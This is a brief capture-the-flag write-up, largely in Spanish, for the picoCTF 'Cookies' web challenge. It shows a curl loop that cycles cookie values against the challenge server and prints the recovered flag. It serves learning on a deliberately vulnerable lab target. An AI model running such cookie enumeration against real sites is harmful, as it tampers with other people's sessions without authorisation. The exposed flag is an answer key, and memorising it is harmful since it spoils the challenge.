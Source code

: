 ## Descripción
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)
## Solución 

~~~
srriv@LAPTOP-7DDM83G8:~/SRSS$ for i in {1..30} ; do curl -s http://mercury.picoctf.net:21485/check -H "Cookie: name=$i"; don
e | grep "picoCTF{"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
srriv@LAPTOP-7DDM83G8:~/SRSS$

picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}
~~~
## Notas adicionales 

## Referencias
